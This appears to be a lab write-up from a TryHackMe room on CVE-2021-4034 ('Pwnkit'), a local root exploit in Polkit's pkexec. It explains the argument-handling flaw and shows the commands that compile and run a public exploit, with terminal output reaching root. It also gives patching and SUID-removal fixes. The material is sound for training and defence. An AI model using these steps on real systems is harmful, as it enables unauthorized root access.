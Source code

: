 # PwnKit
> https://tryhackme.com/r/room/pwnkit

CVE-2021-4034 (colloquially dubbed "Pwnkit") is a terrifying Local Privilege Escalation (LPE) vulnerability, located in the "Polkit" package installed by default on almost every major distribution of the Linux operating system (as well as many other *nix operating systems). In other words, it affects virtually every mainstream Linux system on the planet.

This room will provide an overview of the vulnerability, as well as recommendations to patch affected systems. A vulnerable machine has also been attached to allow you to try the vulnerability for yourself!

**Overview**

CVE-2021-4034 (aka "pwnkit") was discovered by researchers at Qualys and announced in January 2022; the technical security advisory for this vulnerability can be found here. The vulnerability has existed in every version of the "Policy Toolkit" (or, Polkit) package since it was first released in 2009 and allows any unprivileged attacker to easily obtain full administrative access over any Linux machine with the Polkit package installed. Unfortunately, Polkit is installed by default on most distributions of Linux, making this vulnerability extremely widespread.

The ease of exploitation and ubiquitous nature of Polkit make this an absolutely devastating vulnerability; however, fortunately it is not exploitable remotely, making Pwnkit purely a local privilege escalation (LPE) vulnerability.

**What is Polkit?**

Before we look at the vulnerability directly, it helps to understand what Polkit actually is.

Polkit is part of the Linux authorisation system. In effect, when you try to perform an action which requires a higher level of privileges, Polkit can be used to determine whether you have the requisite permissions. It is integrated with systemd and is much more configurable than the traditional sudo system. Indeed, it is sometimes referred to as the "sudo of systemd", providing a granular system with which to assign permissions to users.

When interacting with polkit we can use the pkexec utility — it is this program that contains the Pwnkit vulnerability. As an example of using the utility, attempting to run the useradd command through pkexec in a GUI session results in a pop-up asking for credentials:
`pkexec useradd test1234`

To summarise, the policy toolkit can be thought of as a fine-grained alternative to the simpler sudo system that you may already be familiar with.

---

**The Vulnerability**

As mentioned previously, the Pwnkit vulnerability exists in the pkexec utility — the primary front-end to the Polkit system. We won't go into too much detail here in the interests of readability; however, you are encouraged to read through the Qualys Security Advisory for a full technical explanation of the vulnerability.

The short version is this: versions of pkexec released prior to the patch don't handle command-line arguments safely, which leads to an "out-of-bounds write" vulnerability, allowing an attacker to manipulate the environment with which pkexec is run. This is all you really need to know, but for a slightly more technical explanation, read on!

More specifically, pkexec attempts to parse any command-line arguments that we pass it using a for-loop, starting at an index of 1 to offset the name of the program and obtain the first real argument (e.g. if we entered pkexec bash, then as pkexec is the name of the program, it would be argument 0 — the actual command-line arguments start at index 1). The name of the program is irrelevant to argument parsing, so the indexing is simply offset to ignore it.

What happens, then, if we don't provide any arguments? The index is set permanently to 1!

The following pseudocode may help you to visualise this:

```
for(n=1; n < number_of_arguments; n++){
  //Do Stuff
}
```
If the number of arguments is 0 then n is never less than the number of arguments. As such, n stays equal to one and the loop is bypassed completely.

This becomes a problem later when pkexec attempts to write to the value of the argument at index n. As there are no command-line arguments, there is no argument at index n — instead the program overwrites the next thing in memory, which just so happens to be the first value in the list of environment variables when the program is called using a C function called `execve()`. In other words, by passing pkexec a null list of arguments, we can force it to overwrite an environment variable instead!

For context: certain "dangerous" environment variables are removed by the operating system when you attempt to run a program that has the SUID bit set (as pkexec does by necessity); this is to prevent attackers from being able to hijack the program as it runs with administrative permissions. Using the out-of-bounds write, we are able to re-introduce our choice of these dangerous environment variables by tricking pkexec into adding it for  us. There are a variety of different ways to abuse this, all leading to code execution as the root user.

In which Polkit utility does the Pwnkit vulnerability reside?
pkexec



## Exploitation

Exploiting Pwnkit is, lamentably, incredibly easy.

There are many exploits available online, and writing your own version is not particularly difficult.

The version that we will be using is written in C by arthepsy, and was released soon after the Qualys security advisory was made public. The repository can be found here. This variation of the exploit makes use of the dangerous GCONV_PATH variable to include a malicious shared object file that calls the /bin/sh shell with root permissions.

Once connected, we need to navigate to the pre-added pwnkit/ subdirectory, then compile the exploit using the following command:
```
gcc cve-2021-4034-poc.c -o exploit
```

We can then run the exploit with ./exploit to obtain instant root access over the target!

The entire process can be seen in the clip below:

```bash
|  _ \__      ___ __ | | _(_) |_ 
| |_) \ \ /\ / / '_ \| |/ / | __|
|  __/ \ V  V /| | | |   <| | |_ 
|_|     \_/\_/ |_| |_|_|\_\_|\__|
 

tryhackme@pwnkit:~$ 
tryhackme@pwnkit:~$ ls
pwnkit
tryhackme@pwnkit:~$ cd pwnkit/
tryhackme@pwnkit:~/pwnkit$ ls
README.md  cve-2021-4034-poc.c
tryhackme@pwnkit:~/pwnkit$ uname -a
Linux pwnkit 5.4.0-1029-aws #30-Ubuntu SMP Tue Oct 20 10:06:38 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
tryhackme@pwnkit:~/pwnkit$ cat /etc/os-release 
NAME="Ubuntu"
VERSION="20.04.1 LTS (Focal Fossa)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 20.04.1 LTS"
VERSION_ID="20.04"
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
VERSION_CODENAME=focal
UBUNTU_CODENAME=focal
tryhackme@pwnkit:~/pwnkit$ 

tryhackme@pwnkit:~/pwnkit$ ls -latr
total 20
-rw-rw-r-- 1 tryhackme tryhackme 1267 Jan 26  2022 cve-2021-4034-poc.c
-rw-rw-r-- 1 tryhackme tryhackme 1271 Jan 26  2022 README.md
drwxrwxr-x 8 tryhackme tryhackme 4096 Jan 26  2022 .git
drwxr-xr-x 5 tryhackme tryhackme 4096 Jan 26  2022 ..
drwxrwxr-x 3 tryhackme tryhackme 4096 Jan 27  2022 .
tryhackme@pwnkit:~/pwnkit$ whoami; id
tryhackme
uid=1000(tryhackme) gid=1000(tryhackme) groups=1000(tryhackme)
tryhackme@pwnkit:~/pwnkit$ gcc cve-2021-4034-poc.c -o exploit
tryhackme@pwnkit:~/pwnkit$ ./exploit 
# whoami; id
root
uid=0(root) gid=0(root) groups=0(root),1000(tryhackme)
# 
# cd /root
# ls
flag.txt  snap
# cat flag.txt
THM{CONGRATULATIONS-YOU-EXPLOITED-PWNKIT}
# 






```


references:
- https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt

## Tutorial and Remediations

Fortunately, developers tend to be fairly fast when it comes to developing patches for critical vulnerabilities. As a prime example: at the time of writing, Canonical have already released patched versions of the Polkit package in the APT package manager for all versions of Ubuntu which are not end-of-life. The patched version can be installed with a simple apt upgrade — e.g. 

```
sudo apt update && sudo apt upgrade.
```

In distributions which have not yet released patched versions of the package, the recommended hotfix is to simply remove the SUID bit from the pkexec binary. This can be done with a command such as the following:

```
sudo chmod 0755 `which pkexec`
```
This is far from ideal, however, it works as a temporary solution until more distributions start packaging versions of polkit that are patched against Pwnkit.

It should be noted that there are many variations of the Pwnkit exploit using different environment variables and exploiting the vulnerability in different ways. Some of these leave traces and logs behind, others do not.

You can check to ensure that a system is patched by attempting to run a copy of the exploit against it. If the exploit returns the pkexec help menu then the system is patched:


```
# sudo chmod 0755 `which pkexec`
# 
tryhackme@pwnkit:~/pwnkit$ id
uid=1000(tryhackme) gid=1000(tryhackme) groups=1000(tryhackme)
tryhackme@pwnkit:~/pwnkit$ ./exploit 
GLib: Cannot convert message: Could not open converter from “UTF-8” to “PWNKIT”
pkexec must be setuid root
tryhackme@pwnkit:~/pwnkit$ 
```


## Recommended 
- https://tryhackme.com/r/room/polkit
  